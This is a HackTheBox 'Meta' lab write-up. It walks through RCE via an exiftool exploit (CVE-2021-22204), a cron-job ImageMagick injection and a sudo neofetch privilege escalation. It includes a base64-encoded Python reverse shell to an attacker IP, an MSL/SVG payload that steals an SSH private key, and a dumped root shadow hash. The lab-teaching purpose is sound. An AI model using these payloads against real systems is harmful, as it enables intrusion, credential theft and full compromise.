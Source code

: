 # HackTheBox-Meta

## NMAP

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PORT 80 (HTTP)

When visiting the site it resovles to domain name `artcorp.htb` , so add this to `hosts` file 

<img src="https://i.imgur.com/HmIYH0u.png"/>

<img src="https://i.imgur.com/hrP22o2.png"/>

So running to fuzz for files and directories using `dirsearch`

<img src="https://i.imgur.com/TJsqUF6.png"/>

It didn't found anything interesting , since we have a domain name , we can fuzz for a subdomain using `wfuzz`

<img src="https://i.imgur.com/ufsdlcd.png"/>

Now adding this to `hosts` file as well

<img src="https://i.imgur.com/L1A1grU.png"/>

<img src="https://i.imgur.com/wFgTZsT.png"/>


Now here it's reading metdata from the image file with extension png or jpeg/jpg , I tried uploading a normal php file which the server responded with file not allowed

<img src="https://i.imgur.com/7yBuqeP.png"/>

So let's try to add a comment which will have a  php command into a legit png file

<img src="https://i.imgur.com/BwaSOSV.png"/>

<img src="https://i.imgur.com/mFDrokS.png"/>

When we upload this to the site , it will remove this php comment

<img src="https://i.imgur.com/BqUP7Br.png"/>

## Foothold

For this there's a CVE (CVE-2021-22204)

<img src="https://i.imgur.com/NxJZ9Tm.png"/>

We can find the POC as well

https://github.com/OneSecCyber/JPEG_RCE

<img src="https://i.imgur.com/afTmIhg.png"/>

Clone the repo and use the `eval.config` file 

```bash
exiftool -config eval.config image.png -eval='system("id")'
```

<img src="https://i.imgur.com/ua2Jnyl.png"/>

On uploading it you'll see the out of the command in `system` 

<img src="https://i.imgur.com/PasTjiU.png"/>

To get a reverse shell we can use python3 to reverse shell payload and to not run into problem quotes problem I base64 encoded the payload so bash doesn't scream about double qutoes and single quotes 

```bash
exiftool -config eval.config image.png -eval='system("echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEyNSIsMjIyMikpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKSc=' | base64 -d |bash")'
```

<img src="https://i.imgur.com/q0ljUiv.png"/>

Start the listener and upload the file

<img src="https://i.imgur.com/cwhriG5.png"/>

After getting the shell , stabilize it with python3, checking `sudo -l` and other directories I wasn't able to find anything that could allow us to privesc to `thomas` user, so transfered `pspy` to monitor background processes and found that there was a cron job running as thomas 

<img src="https://i.imgur.com/RfecofJ.png"/>


## Privilege Escalation (Thomas)

If we check the script which is being ran as thomas we can see that it's running `mogrify` , luckily this has an exploit which has command injection 

https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

<img src="https://i.imgur.com/tcBNnY8.png"/>

So what script is actually doing is naviagting to `convert_images` in web directory and there it's running mogrify to convert image files to png format so we need to place our svg paylod there 

```bash

<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/uwu`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

```

<img src="https://i.imgur.com/OnnvdE9.png"/>

After waiting for a minute for cron job to run the script 

<img src="https://i.imgur.com/Lojjaj3.png"/>

<img src="https://i.imgur.com/9d7FIpG.png"/>

This will output the contents of thoma's ssh key in  shm folder in a file named `uwu` , now just login through ssh

<img src="https://i.imgur.com/XKi7DWQ.png"/>



## Privilege Escalation (root)

Running `sudo -l` it shows  that we can run `neofetch` as the root user 

<img src="https://i.imgur.com/DDH7vGt.png"/>

Here we can see that `env_reset` is used which means that we can't really exploit PATH variable to replace any command being ran in neofetch but there's `env_keep+=XDG_CONFIG_HOME` which allows us to use this variable for root user 

Launching neofetch with default config

<img src="https://i.imgur.com/R9DFVGw.png"/>

Here we see that it's using the defaut configuration file , now about the `env_keep`  we can abuse neofetch by loading a config file , copy the config file from thomas's directory because the cron job will be replacing thie config file so avoid this we can create a folder `neofetch` and put the config file there

<img src="https://i.imgur.com/a5ig8AE.png"/>

Now make a change to the default config to see if we are able to load a custom config file

<img src="https://i.imgur.com/7TaT4Wt.png"/>

```bash
sudo XDG_CONFIG_HOME=/home/thomas /usr/bin/neofetch
```

<img src="https://i.imgur.com/8ZeBi8R.png"/>

And this time it loads neofetch with showing users so it did work 

Let's try to add a bash command in the config file , it could be any command so I am checking if it can make bash a SUID so we can get root 

<img src="https://i.imgur.com/o5Uf1W4.png"/>

After running it we can see that bash has SUID bit on

<img src="https://i.imgur.com/9BIvG5n.png"/>

<img src="https://i.imgur.com/D84lRzb.png"/>

And with this we got root

## References 

- https://hackerone.com/reports/1154542
- https://github.com/OneSecCyber/JPEG_RCE
- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html
- https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation/sudo-abuse


root:$6$C2RdQ0RpQ545cx/2$TMbXaoMwVs7XQVOwEwAnzcUVrIR5CdpVaM3Aoml8p9PWQWvxbrGrh/Y6d2.OuKlSHVsNVS0mJwSoGl.q8Pbug0:18996:0:99999:7:::
